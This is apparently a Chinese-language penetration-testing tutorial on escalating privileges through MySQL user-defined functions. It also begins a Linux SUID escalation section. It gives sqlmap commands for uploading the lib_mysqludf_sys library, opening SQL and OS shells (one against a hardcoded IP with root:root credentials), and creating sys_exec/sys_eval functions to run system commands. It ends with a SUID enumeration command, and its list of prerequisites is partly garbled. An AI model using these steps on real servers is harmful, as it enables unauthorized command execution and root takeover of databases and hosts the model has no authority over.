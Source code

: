 MySQL User-Defined Functions (UDF) 是一种强大的功能，允许用户扩展MySQL的功能，通过编写自定义的函数，用户可以将复杂的逻辑封装成函数，然后在SQL查询中直接使用。

UDF提权的核心思想是向MySQL服务器中插入一个恶意编写的UDF，并通过调用这个UDF来执行恶意代码。

利用条件

1.mysql版本大于5.1，udf.dll文件必须放置在mysql安装目录的lib\plugin文件夹下，该目录默认是不存在的，需要使用webshell找到mysql的安装目录，并在安装目录下创建MySQL\Lib\Plugin\文件夹，然后将udf.dll导入到该目录。
2.mysql版本小于5.1,udf.dll文件在windows server 2003下放置于c:\windows\system32目录，在windows server 2000下放置在c:\winnt\system32目录。
3.掌握mysql数据库的账户，从拥有对mysql的insert和delete权限，以创建和抛弃函数。拥有可4.以将udf.dll写入相应目录的权限。

5. 可以将udf.dll写入到相应目录的权限。
6. 知道root账号密码

sqlmap可以自动化实现

```cmd
python sqlmap.py -u 'xxxx' --file-write=/lib_mysqludf_sys.so  --file-dest=/usr/lib/mysql/plugin/ 

python sqlmap.py -u 'xxxx' --sql-shell

python2 sqlmap.py -d "mysql://root:root@119.90.126.9:3306/dedecms" --os-shell
```

1.连接mysql数据打开一个交互shell:

sqlmap.py -u "url" --sql-shell

select @@version;

select @@plugin_dir;

C:XXXX\mysql\mysql5.6.17\lib\plugin\

2.利用sqlmap上传lib_mysqludf_sys到MySQL插件目录:

sqlmap.py -u "url" --file-write=自己的目录/lib_mysqludf_sys.dll --file-dest=C:XXXX\\mysql\mysql5.6.17\lib\plugin\lib_mysqludf_sys.dll

CREATE FUNCTION sys_exec RETURNS STRING SONAME 'lib_mysqludf_sys.dll'

CREATE FUNCTION sys_eval RETURNS STRING SONAME 'lib_mysqludf_sys.dll'

select sys_eval('ver');

原文链接：https://blog.csdn.net/weixin_35861708/article/details/113219188



### Linux提权

#### SUID配置错误提权

SUID可以让程序调用者以文件拥有者的身份运行该文件，当我们以一个普通用户去运行一个root用户所有的SUID文件，那么运行该文件我们就可以获取到root权限

查看所有属主为root且具有SetUID权限的文件；

```cmd
 find / -user root -perm -4000 -print 2>/dev/null
```
